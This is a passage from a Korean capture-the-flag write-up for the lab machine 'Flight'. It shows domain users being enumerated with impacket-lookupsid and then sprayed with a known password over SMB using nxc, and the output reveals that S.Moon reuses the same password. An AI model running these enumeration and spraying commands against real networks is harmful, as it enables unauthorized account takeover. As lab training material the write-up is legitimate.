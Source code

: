 ```zsh
1613: flight\O.Possum (SidTypeUser)
1614: flight\WebDevs (SidTypeGroup)
```

- 추후 크레덴셜 스프레잉 공격에 활용하기 위해 `SidTypeUser`에 대한 정보만 따로 추출하여 파일로 저장한다.

```zsh
└─# impacket-lookupsid flight.htb/svc_apache@10.129.124.131 | grep -i SidTypeUser | awk '{print $2}' | cut -d '\' -f 2 | tee SidTypeUsers   
Password:
Administrator
Guest
krbtgt
G0$
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```

## Password Spraying Attack

- 이전에 획득한 `svc_apache` 계정의 패스워드를 이용하여 스프레잉 공격을 진행한다.  
- 이 과정에서 `S.Moon` 계정도 `svc_apache` 계정과 동일한 패스워드를 사용하고 있는 것을 확인했다.

```zsh
└─# nxc smb 10.129.124.131 -u SidTypeUsers -p 'S@Ss!K@*t13' --no-brute --continue-on-success
SMB         10.129.124.131  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False) 
SMB         10.129.124.131  445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] flight.htb\Guest:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] flight.htb\krbtgt:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] flight.htb\G0$:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13 
SMB         10.129.124.131  445    G0               [-] flight.htb\R.Cold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] flight.htb\G.Lors:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] flight.htb\L.Kein:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] flight.htb\M.Gold:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] flight.htb\C.Bum:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] flight.htb\W.Walker:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.129.124.131  445    G0               [-] flight.htb\D.Truff:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [-] flight.htb\V.Stevens:S@Ss!K@*t13 STATUS_LOGON_FAILURE 
SMB         10.129.124.131  445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
```